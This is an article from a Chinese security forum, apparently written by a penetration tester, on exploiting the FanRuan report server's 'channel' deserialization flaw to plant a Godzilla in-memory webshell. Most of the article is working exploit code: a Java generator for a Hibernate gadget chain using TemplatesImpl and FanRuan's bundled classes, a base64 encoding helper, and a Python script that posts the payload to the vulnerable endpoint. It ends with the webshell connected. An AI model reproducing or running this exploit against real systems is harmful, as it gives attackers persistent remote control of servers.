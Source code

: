 

# 帆软channel反序列化注入哥斯拉内存马 - 先知社区

帆软channel反序列化注入哥斯拉内存马

- - -

## 前言

在之前某次攻防演练中发现帆软channel反序列化漏洞，但是存在360，没能拿到shell，所以研究了一下帆软注入内存马。

## 生成内存马字节码文件

使用[Java Memshell Generator工具](https://github.com/pen4uin/java-memshell-generator-release)生成Tomcat Filter类型的内存马字节码文件。

[![](assets/1702520954-315664187fdfdc360ffe4767a8188678.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213141549-0f8266c2-997f-1.png)

用IDEA打开生成的.class文件，然后将其代码复制到.java文件中。继承一下`AbstractTranslet`（因为使用TemplatesImpl类利用）。再简单分析一下几个参数，`getBase64String`方法返回的是实现哥斯拉webshell的类，`getUrlPattern`返回的内容是Filter的有效路径，`getClassName`返回的应该是注入器类名，对比上图内存马类名和注入器类名，作者好像写反了。这里就不对内存马注入的原理进行研究了，直接开始生成exp。

[![](assets/1702520954-5a789422708d8b9a4bce4c251eccd4c0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213141618-2093120e-997f-1.png)

## 反序列化利用exp生成

使用hibernate1反序列化利用链生成exp，因为帆软的包和正常hibernate利用链的包名有所区别，所以需要引入帆软的依赖生成exp。

我引入了以下两个jar包（实际上只需要引用fine-third-10,0.jar这个即可）。

[![](assets/1702520954-fa750bf3d248af6981c31033a215f8a2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213141628-26ef2854-997f-1.png)

使用javassist获取利用类的字节码。

[![](assets/1702520954-5e61c6ba4239fc4cf517f7bea15bc9b3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213141637-2c46afca-997f-1.png)

生成exp代码：

```plain
import com.fr.third.org.hibernate.engine.spi.TypedValue;
import com.fr.third.org.hibernate.type.ComponentType;
import com.nqzero.permit.Permit;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import sun.reflect.ReflectionFactory;
import util.SerialUtil;

import java.io.FileOutputStream;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.zip.GZIPOutputStream;

public class hibernateFR {
    public static void main(String[] args) throws Exception {
        byte[] code = SerialUtil.getBytecodes();
        TemplatesImpl obj = new TemplatesImpl();
        SerialUtil.setFieldValue(obj, "_bytecodes", new byte[][] {code});
        SerialUtil.setFieldValue(obj, "_name", "test");
        SerialUtil.setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());

        Class clazz = Class.forName("com.fr.third.org.hibernate.tuple.component.PojoComponentTuplizer");
        Constructor constructor = Object.class.getDeclaredConstructor();
        Permit.setAccessible(constructor);
        Constructor pojoct = ReflectionFactory.getReflectionFactory().newConstructorForSerialization(clazz, constructor);
        Permit.setAccessible(pojoct);
        Object pojoCT = pojoct.newInstance();

        Class clazz1 = Class.forName("com.fr.third.org.hibernate.tuple.component.AbstractComponentTuplizer");
        Class clazz4 = Class.forName("com.fr.third.org.hibernate.property.access.spi.GetterMethodImpl");
        Constructor constructor4 = clazz4.getDeclaredConstructor(Class.class, String.class, Method.class);
        Object getter = constructor4.newInstance(obj.getClass(), "outputProperties", obj.getClass().getMethod("getOutputProperties"));
        Object getters = Array.newInstance(getter.getClass(), 1);
        Array.set(getters, 0, getter);
        Field f = clazz1.getDeclaredField("getters");
        f.setAccessible(true);
        f.set(pojoCT, getters);

        Class clazz3 = Class.forName("com.fr.third.org.hibernate.type.ComponentType");
        Constructor constructor2 = Object.class.getDeclaredConstructor();
        Permit.setAccessible(constructor2);
        Constructor constructor3 = ReflectionFactory.getReflectionFactory().newConstructorForSerialization(clazz3, constructor2);
        ComponentType componentType = (ComponentType) constructor3.newInstance();
        TypedValue typedValue = new TypedValue(componentType, null);
        SerialUtil.setFieldValue(componentType, "componentTuplizer", pojoCT);

        SerialUtil.setFieldValue(componentType, "propertySpan", 1);

        HashMap<Object, String> map = new HashMap<>();
        map.put(typedValue, "1jzz");
        //Object template = Gadgets.createTemplatesImpl("TomcatEcho");
        SerialUtil.setFieldValue(typedValue, "value", obj);


        //SerialUtil.unserial(SerialUtil.serial(map));
        GZIPOutputStream gzipOutputStream = new GZIPOutputStream(new FileOutputStream("生成exp的文件路径"));
        byte[] data = SerialUtil.serial(map).toByteArray();
        gzipOutputStream.write(data);
        gzipOutputStream.close();
    }
}
```

读取生成的序列化文件，并进行base64编码，得到利用payload，由于太长了，这里我就不放上来了。

```plain
def encode_ser():
    with open("shell", "rb") as f:
        binary = f.read()
        data = base64.b64encode(binary)
        print(data)

if __name__ == '__main__':
    encode_ser()
```

使用脚本利用：

```plain
import base64
import requests

def cmd():
    proxies = {
        'http': 'http://127.0.0.1:8081',
        'https': 'http://127.0.0.1:8081'}

    try:

        burp0_url = "http://localhost:8080/webroot/decision/remote/design/channel"
        burp0_headers = {"Content-Type": "application/x-www-form-urlencoded"}

        b = b"生成payload字节码的base64编码"

        burp0_data = base64.b64decode(b)

        res = requests.post(burp0_url, headers=burp0_headers, data=burp0_data, verify=False, timeout=3, proxies=proxies)
    except Exception as e:
        print(e)


if __name__ == "__main__":
    cmd();
```

[![](assets/1702520954-c51ceee3992e6ad4bf18db2194a76926.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213141707-3e2fcc76-997f-1.png)

连接内存马成功：

[![](assets/1702520954-b925596ecbb9ad8070398c4a2e0715f6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213141716-43852e96-997f-1.png)

# 参考

[https://github.com/pen4uin/java-memshell-generator-release](https://github.com/pen4uin/java-memshell-generator-release)
